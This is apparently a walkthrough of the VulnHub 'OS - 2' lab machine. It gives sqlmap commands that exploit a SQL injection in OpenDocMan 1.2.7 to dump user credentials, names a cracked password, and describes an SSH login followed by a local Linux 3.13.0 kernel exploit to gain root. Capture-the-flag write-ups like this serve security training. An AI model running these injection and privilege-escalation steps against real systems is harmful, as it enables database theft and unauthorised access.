# ***VulnHub OS - 2***
> Keertan singh, 06/19/2022

## Let's crack it
- IP Address of Machine : 
```
export IP=192.168.X.X
```

- As we can see that this section is hidden, and when we highlight it, we get to know that we have to go to:
```
http:<your_Machine_ip>/jabcd0cs/
```


- We can see that this is 'opendocman v1.2.7'. which is vulnerable. to let search exploit for it...


- Here is exploit for it...



- Get all the data base, There is 'jabcdos' database with is look interest.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" --dbms=mysql --dbs
```


- let find all the table of jabcd0cs database.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs --dbms=mysql --tables
```

- let find all the columns of odm_user's tables.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs -T odm_user --dbms=mysql --columns
```

- Let dump the data..
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs -T odm_user -C username,password,email,phone --dbms=mysql --dump
```


- we got a username as webmin and its password in hash form. so let's crack this hash.


- Password of webmin is:
```
webmin1980
```
- we know that ssh port is open on this machine, so we can login..


- Type uname -a command and we get to know that it has 'linux kernal version 3.13.0'. that is vulnerable too.. :
```
uname -a
```

- let's find exploit for this..
```
searchsploit linux 3.13.0
```


 - I have get this expolit in my current directory, and starting python server, so that we can download..
 

 - I have download this kernal.c file on our machine..
 
 - So let's get root access and flag...
 


